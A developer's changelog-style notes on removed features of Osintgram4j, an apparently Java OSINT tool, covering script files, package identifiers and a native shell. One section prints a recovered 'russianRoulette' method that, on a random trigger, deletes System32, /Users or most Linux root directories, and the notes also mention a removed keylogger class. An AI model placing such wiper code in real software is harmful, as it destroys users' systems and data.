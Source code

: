 # Removed Features
This is a list of removed / replaced features that were created during
the development/release stages of Osintgram4j. Some were already forgotten,
but some weren't. Forgotten, as in never committed or pushed to GitHub.

I won't go into every single detail, especially that some methods already
have the `@Deprecated` notice for some specific methods.

## Development Stages (v0.1 - v0.6)
In the development stages, I went through some ideas, which were either
removed or replaced with other methods / functionalities. As of now, we
are still in the v0.1 stage. Don't worry, we are soon transitioning into
the v0.2 territory, where Networking starts to take shape.

### Shell Files
Like Bash/ZSH Script files, I tried bringing Osintgram4j Script files, as a
way of bringing Scripting into it.

This was later on deleted and replaced with the use of `addTarget` method
that can be seen in `src/net/bc100dev/osintgram4j/MainClass.java` file.
The reason for its deletion was to simplify the process of using it instead
of doing something that a Shebang can literally do.

This was later on deleted due to some complexities. However, it's use of file
targets within the CLI itself was replaced with the use of `addTarget` method,
where for each target, it would assign 

### Keylogger Easter Egg
For people that like snooping around in the source files, I wanted to add
a little secret, which was a Keylogger. However, that Keylogger didn't have
any purpose, so it was remained as a useless class.

Later in the development, that class was deleted due to potential backlash
that people, or to be exact, haters looking to cancel people, could try to
cancel me, which I am not going that route just yet.

### Russian Roulette System Wipe
As a joke that has relatively low chance of running, I thought about including
a small code Easter egg that also never gets called, which basically, wipes
the System. Let me demonstrate from a recovered commit.

```java
public static void russianRoulette() throws IOException {
    int i = Utility.getRandomInteger(1, 150);
    i += Utility.getRandomInteger(0, Utility.getRandomInteger(715, Integer.MAX_VALUE / 2));
    i /= Utility.getRandomInteger(1, 4);
    i += Utility.getRandomInteger(500, 20000);

    if (i == 2891055) {
        switch (getOperatingSystem()) {
            case WINDOWS -> delete(System.getenv("SystemRoot") + "\\system32");
            case LINUX -> {
                delete("/home");
                delete("/opt");
                delete("/etc");
                delete("/media");
                delete("/mnt");
                delete("/lib");
                delete("/lib32");
                delete("/lib64");
                delete("/bin");
                delete("/sbin");
            }
            case MAC_OS -> delete("/Users");
        }

        return;
    }

    throw new IOException("lucky bastard");
}
```

What it does is the randomness, which I think, is relatively very low chance
of running. If the specific operating system gets detected, it does its
usual thing. On Windows, it deletes System32, while on macOS, I only went for
the `/Users` folder, since I don't personally own a MacBook. With Linux, I
went for the most of the root directories. Also, that was linked with the
File Utility class in the commons directory itself.

Why was it deleted? Because I decided to remove this bloat, but also the
same reason, as said with the Keylogger.

### Package Identifiers
For the modding API thing, I wanted to integrate a way of adding Identifiers
for each package. However, since I noticed that it is bloated in some way or
another, I decided to remove it, along with the Identifier Generation. This
way, packages will no longer use an Identifier. Instead, every package
relies on the JAR Manifest file, giving specific Attributes. Using this way,
the client can rely on File Names instead of specific Package Identification
that are long and unable to read. I mean, would you like to read a 35-long
identifier that does not even use the common strategies, like UUID for
example? I surely don't want to.

### EE Handle
EE stands for "Easter Egg", which was used to handle a remote file and handle
the random password generation. If the password was correct, it would print
out a specific password. This was later on removed, due to some personal
issues with a specific individual.

If you wish to encounter more, then look into the `extres` folder. You will
see two other files, named `unused0.txt` and `unused2.txt`, even though
the Unused 0 might have no leads there. You might want to embrace first
before diving into it.

### Native Shell
As a way of making the best out of the Shell, which include handling specific keys,
like Left Arrow and Right Arrow, it was removed due to complexities of the `ncurses`
library. I wanted it, but given the fact that ChatGPT wrote it, and me, not knowing,
how to fix specific bugs, I had to remove it in favor of the standard `Scanner`
class, which is poorly made. Maybe in the future, I might revisit it.